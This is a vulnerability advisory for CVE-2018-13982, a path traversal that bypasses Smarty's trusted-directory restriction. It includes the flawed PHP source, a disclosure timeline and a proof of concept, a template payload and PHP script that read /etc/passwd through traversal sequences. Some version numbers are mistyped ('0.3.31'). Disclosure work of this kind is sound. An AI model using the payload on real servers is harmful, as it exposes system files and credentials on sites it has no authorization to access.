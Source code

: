 # Smarty Trusted-Directory Bypass via Path Traversal #

## Vulnerability Overview ##

Smarty 3.1.32 or below is prone to a path traversal vulnerability due
to insufficient sanitization of code in Smarty templates. This allows
attackers controlling the Smarty template to bypass the trusted
directory security restriction and read arbitrary files.

* **Identifier**            : SBA-ADV-20180420-01
* **Type of Vulnerability** : Path Traversal
* **Software/Product Name** : [Smarty](https://www.smarty.net/)
* **Vendor**                : Smarty
* **Affected Versions**     : 3.1.32 and probably prior
* **Fixed in Version**      : 3.1.33
* **CVE ID**                : CVE-2018-13982
* **CVSSv3 Vector**         : CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:N/A:N
* **CVSSv3 Base Score**     : 8.6 (High)

## Vendor Description ##

> Smarty is a template engine for PHP, facilitating the separation of
> presentation (HTML/CSS) from application logic. This implies that PHP
> code is application logic, and is separated from the presentation.

Source: <https://www.smarty.net/about_smarty>

## Impact ##

An attacker controlling the executed template code can read arbitrary
files accessible by the webserver by exploiting the vulnerability
documented in this advisory. Sensitive data such as database credentials
might get exposed through this attack.

We recommend upgrading to version 3.1.33 or newer.

## Vulnerability Description ##

Smarty allows restricting which paths are accessible paths during
template evaluation. This feature is implemented in the
`Smarty_Security` class and is enabled via the method `enableSecurity`.
However, the trusted directory check implemented in the method
`isTrustedResourceDir` of the `Smarty_Security` class is vulnerable to
path traversal.

The method `isTrustedResourceDir` first builds a list of allowed
directories in `$filepath` and then relies on the `_checkDir` method
to check if the requested resource dir is trusted. In version 0.3.31
neither `isTrustedResourceDir` nor `_checkDir` avoid path traversal:

```php
public function isTrustedResourceDir($filepath, $isConfig = null)
{
    [...]
    $this->_resource_dir = $this->_checkDir($filepath, $this->_resource_dir);
    return true;
}

private function _checkDir($filepath, $dirs)
{
    $directory = dirname($filepath) . DIRECTORY_SEPARATOR;
    $_directory = array();
    while (true) {
        // remember the directory to add it to _resource_dir in case we're successful
        $_directory[ $directory ] = true;
        // test if the directory is trusted
        if (isset($dirs[ $directory ])) {
            // merge sub directories of current $directory into _resource_dir to speed up subsequent lookup
            $dirs = array_merge($dirs, $_directory);
            return $dirs;
        }
        // abort if we've reached root
        if (!preg_match('#[\\\/][^\\\/]+[\\\/]$#', $directory)) {
            break;
        }
        // bubble up one level
        $directory = preg_replace('#[\\\/][^\\\/]+[\\\/]$#', DIRECTORY_SEPARATOR, $directory);
    }
    // give up
    throw new SmartyException("directory '{$filepath}' not allowed by security setting");
}
```

In version 0.3.32 `_checkDir` calls `_realpath` before checking if the
requested resource is trusted. However, the custom realpath method is
broken and allows path traversal at least on Unix systems.

For example, the fetch tag uses the `isTrustedResourceDir` method to
check if a user-specified path is allowed to read.

## Proof-of-Concept ##

An attacker can exploit this vulnerability by using the fetch tag:

```php
{fetch file="/var/www/templates/../../../../../etc/passwd"}
```

Full example:

```php
<?php
require_once "vendor/autoload.php";

$smarty = new Smarty;
$smarty->enableSecurity();
// Fails
//$smarty->display('eval:{fetch file="/etc/passwd"}');
// Works
$smarty->display('eval:{fetch file="'.addslashes(getcwd()).'/templates/../../../../../etc/passwd"}');
```

## Timeline ##

* `2018-04-20`: identification of vulnerability in version 3.1.31
* `2018-04-23`: initial vendor contact
* `2018-04-23`: disclosed vulnerability to vendor
* `2018-04-24`: vendor acknowledged vulnerability and released version 3.1.32
* `2018-04-25`: notified vendor about incomplete fix
* `2018-04-26`: vendor fixed vulnerability
* `2018-07-10`: request CVE from MITRE
* `2018-07-11`: MITRE assigned CVE-2018-13982
* `2018-09-12`: vendor released fix in version 3.1.33
* `2018-09-17`: public disclosure

## References ##

* Changelog: <https://github.com/smarty-php/smarty/commit/bcedfd6b58bed4a7366336979ebaa5a240581531>
* Patches:
  * <https://github.com/smarty-php/smarty/commit/8d21f38dc35c4cd6b31c2f23fc9b8e5adbc56dfe>
  * <https://github.com/smarty-php/smarty/commit/f9ca3c63d1250bb56b2bda609dcc9dd81f0065f8>
  * <https://github.com/smarty-php/smarty/commit/2e081a51b1effddb23f87952959139ac62654d50>
  * <https://github.com/smarty-php/smarty/commit/c9dbe1d08c081912d02bd851d1d1b6388f6133d1>

## Credits ##

* David Gnedt ([SBA Research](https://www.sba-research.org/))
* Thomas Konrad ([SBA Research](https://www.sba-research.org/))
